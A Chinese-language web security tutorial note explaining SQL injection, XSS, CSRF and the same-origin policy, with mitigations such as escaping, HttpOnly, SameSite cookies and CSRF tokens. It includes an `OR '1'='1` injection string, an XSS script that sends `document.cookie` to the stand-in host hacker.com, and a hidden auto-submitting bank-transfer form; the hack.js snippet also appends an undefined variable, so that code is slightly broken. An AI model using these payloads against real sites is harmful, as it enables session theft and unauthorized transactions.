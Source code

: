 ```yaml
---
title: Web安全
date: 2019-02-16 17:57:46
category: Basic
---
```

> 浏览器安全可以分为三大块——Web 页面安全、浏览器网络安全和浏览器系统安全。
### 1. sql注入
通过把sql命令插入到web表单提交，或输入域名/页面请求的查询字符串，最终达到欺骗服务器执行恶意sql命令。

变量id是一个从用户界面传来的值
```sql
string sql = " SELECT id, name, age from users WHERE id='" + id + "'"
```
ID值: *`1' OR '1' = '1`*
```sql
SELECT id, name, age
FROM users
WHERE id='1' OR '1' = '1'
```
从users表中的所有数据都查询出来，仅仅通过一个简单的恒真表达式。
<br/>



### 2. XSS脚本攻击
黑客通过"HTML注入"篡改网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。

#### 2.1 如何注入恶意脚本
一旦你浏览已经被黑客留下XSS script的页面，这段js就会执行，cookie信息就会被偷走。黑客可以假冒你的身份做事情了。

如果页面被注入恶意js脚本，可以做：
- 窃听cookie：通过`document.cookie`获取cookie信息，发送给恶意服务器
- 监听用户行为：通过`addEventListener`监听键盘时间，发送给恶意服务器
- 修改DOM：伪造假的登录窗口，欺骗用户的用户名和密码
- 在页面内生成浮窗广告


将一段恶意JS代码提交到数据库，用户请求包含恶意js脚本的数据，并注入页面。

某个黑客发表了一篇文章，在`<input>`框中输入一段script
```js
<script type="text/javascript" src="http://hacker.com/hack.js"></script>
```

hack.js文件中的内容
```js
var img = document.createElement('img');
img.src = "http://hacker.com/log?" + escape(document.cookie);
document.body.appendChild(script);
```

#### 2.2 如何阻止攻击
- 对关键字符转码
```js
// 转码前
code:<script>alert('你被xss攻击了')</script>

// 转码后
code:&lt;script&gt;alert(&#39;你被xss攻击了&#39;)&lt;/script&gt;
```
- 用`HttpOnly`保护`Cookie`的安全
- 禁止执行内联脚本
- 限制加载其他域下的资源

<br/>


### 3. CSRF跨站脚本伪造
#### 3.1 CSRF攻击行为
黑客引诱用户打开黑客的网站，利用用户的登录状态发起跨站请求。
- 自动发起GET请求
- 自动发起POST请求
- 引诱用户点击链接

假设有个银行网站用以下方式进行转账操作
```
http://www.bank.com/transfer.php?toBankId=<账号>&money=<金额>
```
你打开浏览器，先登录了银行网站，然后又开了一个tab页，打开了你的邮箱，有这么一个邮件：恭喜你获得了一台iphone x,点击领取。点击了上面的链接，就执行了转账操作。

后来银行转账功能不用`get`， 改用`post`。 

黑客也做了改进，建立了一个偷偷提交数据的页面。用户进入该页面，会自动提交表单。若用户已经登录了`www.bank.com`，请求成功。

从头到尾，攻击网站都没有获取到过cookie， 都是通过浏览器间接实现（利用web的cookie隐式身份验证机制），所以`httpOnly`并不会影响这个攻击。

```html
<body>
  <iframe name="steal" display:'none'>
    <form method="POST" name="transfer" action="http://www.bank.com/transfer.php">
      <input type="hidden" name="toBankId" value="123">
      <input type="hidden" name="money" value="10000">
    </form>
  </iframe>
  <script>
    function steal(){
      iframe = document.frames["steal"];
      iframe.document.submit("transfer");
    }
  </script>
</body>
```


#### 3.2 防止CSRF攻击
- 如果是第三方站点发起的请求，禁止发送某些关键Cookie数据到服务器
`Set-cookie`请求头带上`SameSite`: Strict, Lax, None
- 检查Referer, Origin请求头: 根据地址判断是否接受请求
- CSRF Token: 在浏览器向服务器发起请求时，服务器生成一个 CSRF Token，该字符串植入到返回的页面中。如果要发起转账，就要带上CSRF Token



<br/>

### 4. 同源策略
如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源。
- DOM层面
限制了来自不同源的 JavaScript 脚本对当前 DOM 对象读和写的操作。
- 数据层面
限制了不同源的站点读取当前站点的 Cookie、IndexDB、LocalStorage 等数据。
- 网络层面
限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。

但同时：
- 页面中可以嵌入第三方资源
- CSP & CORS: 让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码。


<br/>

### 5. https
<br/>
### 参考资料
- [简单的 web 安全 checklist](https://cloud.tencent.com/developer/article/1004895)
- 码农翻身-web安全
- 《图解HTTP》第11章 Web的攻击技术